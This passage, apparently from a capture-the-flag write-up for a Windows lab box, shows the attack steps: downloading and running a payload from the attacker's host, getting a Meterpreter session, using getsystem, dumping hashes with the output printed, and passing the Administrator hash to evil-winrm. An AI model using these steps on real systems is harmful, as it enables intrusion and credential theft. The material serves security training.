 After that we `transfered` our `file` to the box and executed it.

```powershell
PS C:\temp> iwr 10.10.14.85/asdf.exe -o asdf.exe
```

```powershell
PS C:\temp> .\asdf.exe
```

After receiving the `meterpreter session` we used `getsystem` to abuse `SeImpersonatePrivilege` and to `dump` the `hashes` using `hashdump`.

```console
[*] Sending stage (203846 bytes) to 10.129.135.234
[*] Meterpreter session 1 opened (10.10.14.85:6669 -> 10.129.135.234:55606) at 2025-03-30 10:28:09 +0200

meterpreter >
```

```console
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06dc954d32cb91ac2831d67e3e12027f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:937e28202a6cdfcc556d1b677bcbe82c:::
paul.taylor:1103:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
mark.adams:1104:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
edward.martin:1105:aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af:::
alexander.green:1106:aad3b435b51404eeaad3b435b51404ee:6b8caa0cd4f8cb8ddf2b5677a24cc510:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9dcbc33adec3bdc8b2334060002ce1b4:::
Haze-IT-Backup$:1111:aad3b435b51404eeaad3b435b51404ee:735c02c6b2dc54c3c8c6891f55279ebc:::
```

With the `hash` of `Administrator` we performed `Pass-The-Hash` to login and to grab the `root.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.135.234 -u Administrator -H 06dc954d32cb91ac2831d67e3e12027f
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
